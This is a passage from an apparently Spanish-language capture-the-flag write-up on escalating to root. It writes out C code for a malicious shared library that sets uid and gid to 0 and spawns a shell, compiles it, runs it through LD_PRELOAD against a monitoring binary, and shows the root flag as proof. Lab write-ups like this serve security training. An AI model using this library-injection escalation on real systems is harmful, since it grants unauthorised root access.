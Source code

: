 Sabiendo esto podemos crear un binario malicioso que sustituya a **libmonitor.so** que al ejecutarse de permisos **SUID** a la bash de root
```so
# Crear el archivo con el código malicioso
cat > /tmp/malicious_lib.c << 'EOF'
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor))
void init() {
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
EOF
```

Ahora lo compilamos
```bash
gcc -shared -fPIC -w -o /tmp/libmonitor.so /tmp/malicious_lib.c
```

Ahora ejecutamos
```bash
# Comando para escalar al usuario: ( root )
LD_PRELOAD=/tmp/libmonitor.so /usr/local/bin/secmonitor
```

---

## Evidencia de Compromiso
Flag de root
```bash
# ls -la /root

-rw-r--r--  1 root root   33 jul 19 02:30 root.txt
```

```bash
# Captura de pantalla o output final
# echo -n "\n[+] Hacked: $(whoami)\n\n"

[+] Hacked: root
```